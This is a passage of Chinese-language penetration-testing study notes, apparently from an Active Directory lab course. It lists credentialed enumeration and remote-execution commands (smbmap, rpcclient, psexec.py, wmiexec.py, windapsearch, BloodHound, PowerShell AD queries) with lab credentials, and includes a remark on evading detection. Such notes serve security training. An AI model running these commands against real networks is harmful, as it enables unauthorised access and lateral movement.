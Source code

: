### 6.5.2 SMBMap

```
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```

### 6.5.3 rpcclient

```
rpcclient -U "" -N 172.16.5.5
rpcclient $> queryuser 0x457
rpcclient $> enumdomusers
```

### 6.5.4 psexec.py

Psexec.py 是 Sysinternals psexec 可执行文件的克隆，但其工作方式与原始可执行文件略有不同。该工具通过将随机命名的可执行文件上传到目标主机上的 `ADMIN$` 共享来创建远程服务。然后，它通过 `RPC` 和 `Windows Service Control Manager` .建立后，通信将通过命名管道进行，从而在受害者主机上提供交互式远程 shell 作为 `SYSTEM`。

```
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 #要使用 psexec.py 连接到主机，我们需要具有本地管理员权限的用户的凭证。
```

### 6.5.5 wmiexec.py

Wmiexec.py 利用半交互式 shell，其中命令通过 [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) 执行。它不会在目标主机上删除任何文件或可执行文件，并且生成的日志比其他模块少。连接后，它以我们连接的本地管理员用户身份运行（对于寻找入侵的人来说，这可能比看到 SYSTEM 执行许多命令更不明显）。与其他工具相比，这是一种在主机上执行更隐蔽的方法，但仍可能被大多数现代防病毒和 EDR 系统捕获(如果警惕的防御者检查事件日志并查看事件 ID [4688：已创建新进程 ](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4688))。我们将使用与 psexec.py 相同的帐户来访问主机。

```
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

### 6.5.6 Windapsearch

```shell-session
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

### 6.5.7 Bloodhound.py

```
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```

## 6.6 Windows凭证枚举

```powershell-session
Import-Module ActiveDirectory

Get-Module

Get-ADDomain

Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

Get-ADTrust -Filter *

Get-ADGroup -Filter * | select name

Get-ADGroupMember -Identity "Backup Operators" #组成员资格
```